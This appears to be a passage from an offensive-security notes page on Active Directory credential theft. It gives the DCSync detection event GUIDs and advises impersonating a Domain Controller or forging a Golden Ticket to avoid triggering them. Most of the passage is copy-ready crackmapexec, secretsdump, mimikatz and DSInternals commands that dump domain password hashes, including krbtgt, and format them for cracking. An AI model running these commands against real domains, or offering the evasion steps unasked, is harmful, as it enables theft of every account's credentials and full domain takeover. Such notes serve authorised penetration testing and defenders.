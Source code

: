Note that whenever a replication request is made by any security principals
that is not a machine account member of the `Domain Controllers` /
`ENTERPRISE DOMAIN CONTROLLERS` domain groups, Windows `Security` events
`Event 4662: An operation was performed on an object` are generated. The
generated events will have, in the `Property` attribute, the
`1131f6aa-9c07-11d1-f79f-00c04fc2dcd2` and
`1131f6ad-9c07-11d1-f79f-00c04fc2dcd2` `GUID`, and can thus be effectively used
to detect `DCSync` attacks. In order to avoid the generation of such events,
the identity of a `Domain Controller` can be usurped, either after the
compromise of a `Domain Controller` machine account `NTLM` hash or the
compromise of any of the `krbtgt` account secret. Indeed, using one the
`krbtgt` account secret, a `Golden ticket` impersonating a `Domain Controller`
machine account can be crafted. For more information on `kerberos` `Golden
tickets` refer to the `[ActiveDirectory] Golden Tickets` note.    

```
# Wrap around secretsdump.py. May however encounter problems if using a Domain Controller machine account NTLM hash.
crackmapexec smb <DC_HOSTNAME | DC_IP> -d '<DOMAIN>' -u '<USERNAME>' -p '<PASSWORD>' --ntds drsuapi
crackmapexec smb <DC_HOSTNAME | DC_IP> -d '<DOMAIN>' -u '<USERNAME>' -H '<NTLM_HASH>' --ntds drsuapi
crackmapexec <DC_HOSTNAME | DC_IP> -d '<DOMAIN>' -u '<USERNAME>' -p '<PASSWORD>' --ntds drsuapi
crackmapexec <DC_HOSTNAME | DC_IP> -d '<DOMAIN>' -u '<USERNAME>' -H '<NTLM_HASH>' --ntds drsuapi

secretsdump.py -dc-ip <DC_IP> -just-dc-user "<krbtgt | USERNAME>" "<DOMAIN>/<USERNAME>:<PASSWORD>@<DOMAIN | DC_IP>"
secretsdump.py -dc-ip <DC_IP> "<DOMAIN>/<USERNAME>:<PASSWORD>@<DOMAIN | DC_IP>"
secretsdump.py "<DOMAIN>/<USERNAME>:<PASSWORD>@<DOMAIN | DC_IP>"
secretsdump.py -hashes <LM_HASH:NTLM_HASH> <DOMAIN>/<USERNAME>@<DOMAIN | DC_IP>"

mimikatz
lsadump::dcsync /domain:<DOMAIN_FQDN> /dc:<DC_FQDN> /user:<krbtgt | USERNAME>
```

### ntds.dit credentials information extraction

The `impacket`'s `secretsdump` Python script and PowerShell cmdlets of the
`DSInternals` module can be used to extract account(s) credentials information
from a specified `ntds.dit` file.

```
secretsdump.py -user-status -ntds <NTDS_DIT_FILE> -system <SYSTEM_HIVE_FILE> LOCAL

$key = Get-BootKey -SystemHivePath '<EXPORTED_SYSTEM>'
# By default all of the account(s) secrets are retrieved (NTHashHistory, LMHashHistory, Kerberos AES keys, etc.).
# The PowerShell cmdlet Format-Custom can used to automatically extract the LM / NTLM hashes of the output in a format supported by hashcat (HashcatNT) or John the Ripper (JohnLM / JohnNT).
Get-ADDBAccount -All -DBPath '<EXPORTED_NTDS_DIT>' -BootKey $key
Get-ADDBAccount -SamAccountName "krbtgt" -DBPath '<EXPORTED_NTDS_DIT>' -BootKey $key

Get-ADDBAccount -All -DBPath '<EXPORTED_NTDS_DIT>' -BootKey $key | Format-Custom -View <HashcatNT | JohnLM | JohnNT> | Out-File <OUTPUT_FILE>
```
